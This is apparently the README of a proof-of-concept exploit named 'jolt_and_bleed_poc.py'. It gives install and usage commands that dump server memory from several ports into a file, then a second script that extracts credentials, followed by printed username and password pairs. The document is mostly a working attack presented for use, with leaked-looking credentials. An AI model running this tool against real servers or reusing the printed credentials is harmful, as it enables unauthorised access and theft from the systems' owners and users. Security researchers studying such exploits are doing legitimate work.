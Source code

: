 # Install
```
$ pip install --user hexdump
```
# WARNING
Don't test on productuion servers.

# Usage example
```
$ python jolt_and_bleed_poc.py -s 192.168.56.101 -d out.bin -p 9034 9035 9036 9037 9038
...
...
Done

$ python extractCreds.py out.bin
RCLAYBURN:aeM9CuaXatohr1aixe9pohx4u
SADAMS:Ohl0ac4Gaasilae4Nouzoheeh
AJORDAN:peeW1bevoh7eitah1aucheegh
DMANAGER:ohquaix6aipoa6Euy7shu5moH

